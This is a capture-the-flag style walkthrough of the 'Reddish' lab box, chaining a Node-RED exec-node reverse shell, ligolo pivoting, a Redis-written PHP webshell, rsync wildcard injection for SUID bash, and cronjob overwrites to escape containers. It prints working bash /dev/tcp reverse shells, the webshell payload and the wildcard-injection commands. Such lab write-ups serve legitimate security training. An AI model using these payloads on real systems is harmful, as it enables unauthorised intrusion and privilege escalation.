



Reddish

Reddish was a challenging multi-container Linux box that started with a single open port running a node.js service. Initial reconnaissance revealed a Node-Red instance accessible via a JSON endpoint, which I exploited by creating a malicious flow using the exec node to establish a reverse shell on the first container.
From the Node-Red container, I discovered two internal subnets (172.18.0.x and 172.19.0.x) through manual enumeration. Using ligolo for network pivoting, I identified a redis service on 172.19.0.2 and a web server on 172.19.0.4. By exploiting the redis instance, I created a PHP webshell that provided access to the database container and retrieved the user flag.
Privilege escalation on the database container was achieved by exploiting a root cronjob that used rsync with wildcards. I created malicious files that caused the cronjob to generate a SUID bash binary, granting root access. As root, I discovered a third subnet (172.20.0.x) and deployed another ligolo agent for further pivoting.
The final compromise involved exploiting an rsync service on the backup server (172.20.0.2) that exposed the entire filesystem. I overwrote a cronjob to establish a reverse shell, then mounted the host's filesystem partitions from within the backup container. By placing a final cronjob in the host's cron.d directory, I achieved root access on the underlying Reddish machine, completing the multi-layered container escape.
User flag
Nmap scan reveals only 1 active port with a service based on node.js.
Reverse shell on the Node-Red container
I ran curl --head to see what service was running there, but I got a 404 error in return.
Adding -X GET to my command resulted in a "Cannot GET" error, and adding -X POST returned something interesting.
{"id":"162c50a3d77ffe81208129de48183e11","ip":"::ffff:10.10.14.157","path":"/red/{id}"}
This looks like an endpoint of some sort, so I'll navigate to it in my browser.
Node-Red is a flow-based, low-code development tool for visual programming. I'll examine the nodes on the left side.
There are many nodes to use, but the most dangerous(and useful) one lies at the bottom. With the exec node, I can construct a reverse shell that will connect back to my machine.
Here are the changes I made to the nodes:
TCP input: Change type to Connect to, port to the listener port, and host to my machine's IP.
Exec: No changes
TCP Output: Change type to Reply to TCP.
After that, I'll set up a netcat listener on my machine before clicking deploy.
Enumeration of the Node-Red container
There are no tools I'm used to in this container. No netcat, no python, and it seems like I'm not even in a bash shell.
It will be more difficult to progress like this, but it's not something that cannot be done.
This machine has access to two subnets, 172.18.0.x and 172.19.0.x. I can check which IPs are active with a simple loop.
for i in $(seq 1 10); do ping -c 1 172.18.0.$i; done
Knowing that the Node-Red machine has an IP of 172.18.0.2 on this subnet, I can tell that there is one more machine with the IP of 172.18.0.1.
Next, I'll run the same loop but this time for 172.19.0.x.
There are more hosts in the 172.19.0.x subnet. I'd like to enumerate them all, but I'll need to get a bash shell in order to transfer the necessary files.
bash -c "bash -i >& /dev/tcp/10.10.14.157/9002 0>&1"
I'll set up a netcat listener on port 9002.
Now I can transfer a ligolo agent onto the Node-Red machine.
https://github.com/nicocha30/ligolo-ng
On my machine, I'll run nc -lnkvp < agent 80.
And on the Node-Red machine, I'll run cat < /dev/tcp/IP/PORT > agent
Host enumeration with ligolo
Before I can proceed with ligolo, there's some setup that I need to do.
I'll create a tun interface for ligolo to use.
sudo ip tuntap add user kalin mode tun ligolo
sudo ip link set ligolo up
Now I can run the ligolo proxy on my machine.
ligolo-proxy -selfcert
I don't need to worry about a cert here as this is a lab. In real tasks, it would be wise to use a certificate to mitigate the risk of someone snooping in on the data.
Next, I'll run the agent on the Node-Red machine. I'll make it connect back to my ligolo proxy.
./agent -connect 10.10.14.157:11601 -ignore-cert
In order to access the subnets, I'll have to add them to my routes.
sudo ip route add x.x.x.x/24 dev ligolo

Since I'm able to ping the hosts now, I should have no problems with running my usual tools against them.
Port 80 is open on 172.19.0.4.
And 6379(redis) is active on 172.19.0.2.
Reverse shell on the database container
There's nothing interesting on the website, so I'll check out the source code.

I found this interesting TODO list in the code. If there is a connection between the website and the database container, I might be able to get a reverse shell.
With that, I'll try connecting to redis on the database container from my box.
redis-cli -h 172.19.0.2 -p 6379
(Note here: The IP addresses for these two services seem to switch after every restart of the box. Keep that in mind)
I used these commands to create a webshell via redis.
set access "<? system($_REQUEST['test']); ?>"
config set dbfilename test.php
config set dir /var/www/html/
save
I can access it by going to http://172.19.0.3/test.php/test=command
To get a reverse shell all the way from the database server onto my machine, I can use a ligolo listener.
listener_add --addr 0.0.0.0:9004 --to 0.0.0.0:9004
This will cause anything directed to port 9004(within the tunnel) to go straight to my machine on port 9004.
I'll catch the burp request for my webshell, and I'll modify the command.
POST /test.php?test=bash+-c+"bash+-i+>%26+/dev/tcp/172.19.0.4/9004+0>%261" HTTP/1.1
Host: 172.19.0.3
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
The bash command needs to be URLencoded within burp, otherwise, it will not work.
Root on the database container
After some enumeration of the container, I found a cronjob that runs every few minutes as root.
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
This script uses rsync to copy any file with a .rdb extension from the f18 dir, presumably onto a backup server since it's rsync.
It then removes everything in the html directory, and restores it from the backup server.
Since there is a wildcard used, I can make the cronjob execute a specially crafted file, with the goal of obtaining a SUID copy of bash.
echo "cp /bin/bash /tmp/test" > test.rdb
echo "chmod 4755 /tmp/test" >> test.rdb
echo "" > "-e sh test.rdb"
I ended up using a one-liner to make everything quicker.
touch -- test.rdb && echo "cp /bin/bash /tmp/test" > test.rdb && echo "chmod 4755 /tmp/test" >> test.rdb && echo "" > "-e sh test.rdb"
I then waited until the two files were gone from the f18 directory, and as soon as they were...
I could get a root shell via the newly created SUID bash.
In the /home directory, I found two user homes and in one of them, I found the user flag.
Root flag
As the root user on the database container, I will proceed with further enumeration.
Setting up a ligolo agent on the database machine
The database machine is a part of the 172.20.0.x subnet. Since this is a new one, I will perform similar steps
I transferred a ligolo agent from the Node-Red machine onto the database machine using a statically compiled version of ncat.
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/ncat
I then created a different listener on my ligolo proxy.
listener_add --addr 0.0.0.0:11601 --to 0.0.0.0:11601
Lastly, I ran the agent bin on the database machine and directed it to the Node-Red machine.
./agent -connect 172.19.0.4:11601 -ignore-cert
The connection was successful, but in order to make a tunnel, I'll need to create a second interface for ligolo.
sudo ip tuntap add user kalin mode tun ligolo2
sudo ip link set ligolo2 up
I'll also add the 172.20.0.0 route to the new interface.
sudo ip route add 172.20.0.0/24 dev ligolo2
Now I can start the second tunnel with the --tun ligolo2 flag.
Reverse shell on the backup machine
I'll start by scanning the subnet for any mention of rsync. Since the script was backing up data somewhere, and this is a new subnet, It's almost guaranteed that It'll be found here.
Sure enough, the backup server is located at 172.20.0.2. I'll search for a way to abuse rsync that could grant me a reverse shell.

I can view the entire filesystem of the backup server. I'll check whether I can download the files as well.
I copied over the cron.d directory from the backup server.
It contains a single cleanup script and a placeholder.
* * * * * root rm -rf /rdb/*
It's a simple command that removes everything in the directory. My first thought was to overwrite this cronjob with a reverse shell, so I'll try doing just that.
I used rsync to overwrite the cronjob with a bash reverse shell and set up a listener back on my machine, but it never connected back.
Instead, I decided to transfer ncat onto the DB machine and set up a listener there.
I wrote a new cronjob that would connect back to ncat on the DB machine.
echo '* * * * * root bash -c "bash -i >& /dev/tcp/172.20.0.3/9005 0>&1"' > clean
I used rsync to push the change onto the backup server, and almost immediately got a callback.
rsync -avp clean rsync://backup:873/src/etc/cron.d/clean

Reverse shell on reddish
There are no more subnets to enumerate, which means I must be close to finishing the box.
In the /dev directory, I found a bunch of unmounted partitions.
I mounted them all and found out that sda2 holds the reddish filesystem.
However, I'd like to get a reverse shell on the last machine. It'll be easy to do so since I can just put a cronjob into the /etc/cron.d directory in sda2.
echo '* * * * * root bash -c "bash -i >& /dev/tcp/172.20.0.2/9007 0>&1"' > clean
I once again moved ncat, this time to the backup server.
After copying the cronjob into the cron.d directory, I ran ncat and received the shell after a few seconds.
Rooted!